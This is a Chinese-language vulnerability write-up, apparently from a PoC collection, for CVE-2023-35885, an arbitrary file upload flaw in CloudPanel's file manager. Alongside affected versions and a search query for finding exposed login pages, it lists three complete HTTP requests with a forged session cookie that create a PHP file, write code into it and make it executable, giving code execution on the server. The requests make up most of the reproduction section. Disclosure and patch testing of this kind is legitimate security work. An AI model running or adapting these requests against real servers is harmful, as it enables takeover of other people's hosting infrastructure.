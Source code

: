 # CloudPanel makefile 任意文件上传漏洞 CVE-2023-35885

## 漏洞描述

CloudPanel是一个免费的基于PHP的高性能服务器控制面板，具有轻量级组件和现代功能，易于使用，且支持多个PHP版本，提供多语言版本切换。

CloudPanel makefile 接口存在任意文件上传漏洞，攻击者通过漏洞可以获取服务器权限。

## 漏洞影响

cloudpanel 2.0.0 >= 2.3.0

## 网络测绘

```
title=="CloudPanel | Log In"
```

## 漏洞复现

登陆页面

![image-20231115102840968](images/image-20231115102840968.png)

poc

```
POST /file-manager/backend/makefile HTTP/1.1
Host: 
Accept: */*
Connection: keep-alive
Cookie: clp-fm=ZGVmNTAyMDA5NjM3ZTZiYTlmNzQ3MDU1YTNhZGVlM2IxODczMTBjYjYwOTFiNDRmNmZjYTFjZjRiNmFhMTEwOTRiMmNiNTA5Zjc2YjY1ZGRkOWIwMGZmNjE2YWUzOTFiOTM5MDg0Y2U5YzBlMmM5ZTJlNGI3ZTM3NzQ1OTk2MjAxNTliOWUxYjE1ZWVlODYxNGVmOWVkZDVjMjFmYWZkYjczZDFhNGZhOGMyMmQyMmViMGM2YTkwYTE4ZDEzOTdkMmI4YWMwZmI0YWYyNTRmMjUzOTJlNzNiMGM4OWJmZTU0ZDA1NTIwYTJmMjI0MmM2NmQyOWJjNzJlZGExODA0NzBkZmU3YTRkYTM=
Content-Length: 54
Content-Type: application/x-www-form-urlencoded

id=/htdocs/app/files/public/&name=Test.php
```

![image-20231115103123744](images/image-20231115103123744.png)

```
POST /file-manager/backend/text HTTP/1.1
Host: 
Accept: */*
Connection: keep-alive
Cookie: clp-fm=ZGVmNTAyMDA5NjM3ZTZiYTlmNzQ3MDU1YTNhZGVlM2IxODczMTBjYjYwOTFiNDRmNmZjYTFjZjRiNmFhMTEwOTRiMmNiNTA5Zjc2YjY1ZGRkOWIwMGZmNjE2YWUzOTFiOTM5MDg0Y2U5YzBlMmM5ZTJlNGI3ZTM3NzQ1OTk2MjAxNTliOWUxYjE1ZWVlODYxNGVmOWVkZDVjMjFmYWZkYjczZDFhNGZhOGMyMmQyMmViMGM2YTkwYTE4ZDEzOTdkMmI4YWMwZmI0YWYyNTRmMjUzOTJlNzNiMGM4OWJmZTU0ZDA1NTIwYTJmMjI0MmM2NmQyOWJjNzJlZGExODA0NzBkZmU3YTRkYTM=
Content-Length: 289
Content-Type: application/x-www-form-urlencoded

id=/htdocs/app/files/public/Test.php&content=<?php phpinfo()?>
```

![image-20231115103133858](images/image-20231115103133858.png)

```
POST /file-manager/backend/permissions HTTP/1.1
Host: 
Accept: */*
Connection: keep-alive
Cookie: clp-fm=ZGVmNTAyMDA5NjM3ZTZiYTlmNzQ3MDU1YTNhZGVlM2IxODczMTBjYjYwOTFiNDRmNmZjYTFjZjRiNmFhMTEwOTRiMmNiNTA5Zjc2YjY1ZGRkOWIwMGZmNjE2YWUzOTFiOTM5MDg0Y2U5YzBlMmM5ZTJlNGI3ZTM3NzQ1OTk2MjAxNTliOWUxYjE1ZWVlODYxNGVmOWVkZDVjMjFmYWZkYjczZDFhNGZhOGMyMmQyMmViMGM2YTkwYTE4ZDEzOTdkMmI4YWMwZmI0YWYyNTRmMjUzOTJlNzNiMGM4OWJmZTU0ZDA1NTIwYTJmMjI0MmM2NmQyOWJjNzJlZGExODA0NzBkZmU3YTRkYTM=
Content-Length: 65
Content-Type: application/x-www-form-urlencoded

id=/htdocs/app/files/public/Test.php&permissions=0777
```

![image-20231115103158786](images/image-20231115103158786.png)

访问

```
/Test.php
```

